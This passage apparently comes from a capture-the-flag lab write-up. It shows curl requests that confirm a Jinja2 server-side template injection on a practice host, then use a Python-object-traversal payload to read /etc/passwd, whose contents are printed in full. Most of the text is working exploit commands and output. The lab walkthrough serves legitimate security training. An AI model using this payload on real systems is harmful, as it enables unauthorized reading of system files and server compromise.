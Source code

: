 I'll grab my cookie, and move over to curl to test:



    root@kali# curl -X POST --data "name=asd&desc={7*7}" http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY0Mzg5NX0.4_KeOJDJPbguN1bLZg8dbOmSr5f5L5IlpS6XixNsLSU"
    Name: asd desc: {7*7}

    root@kali# curl -X POST --data "name=asd&desc={{7*7}}" http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY0Mzg5NX0.4_KeOJDJPbguN1bLZg8dbOmSr5f5L5IlpS6XixNsLSU"
    Name: asd desc: 49

    root@kali# curl -X POST --data "name=asd&desc={{7*'7'}}" http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY0Mzg5NX0.4_KeOJDJPbguN1bLZg8dbOmSr5f5L5IlpS6XixNsLSU"
    Name: asd desc: 7777777



Based on that testing, it's working, and it's likely Jinja2 (Twig would
have returned 49 for the last test).

### Read File

Looking at the [Jinja2 section on
PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#jinja2),
I'll try to read a file:



    root@kali# curl -X POST http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY1MTA1Mn0.YuW5qoU_-327dbMSnydFQ6q5wyFPw3PFlDHDOjuu2Mk" --data "name=name&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}"
    Name: name desc: root:x:0:0:root:/root:/bin/ash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    news:x:9:13:news:/usr/lib/news:/sbin/nologin
    uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
    operator:x:11:0:operator:/root:/bin/sh
    man:x:13:15:man:/usr/man:/sbin/nologin
    postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
    cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
    ftp:x:21:21::/var/lib/ftp:/sbin/nologin
    sshd:x:22:22:sshd:/dev/null:/sbin/nologin
    at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
    squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
    xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
    games:x:35:35:games:/usr/games:/sbin/nologin
    postgres:x:70:70::/var/lib/postgresql:/bin/sh
    nut:x:84:84:nut:/var/state/nut:/sbin/nologin
    cyrus:x:85:12::/usr/cyrus:/sbin/nologin
    vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
    ntp:x:123:123:NTP:/var/empty:/sbin/nologin
    smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
    guest:x:405:100:guest:/dev/null:/sbin/nologin
    nobody:x:65534:65534:nobody:/:/sbin/nologin

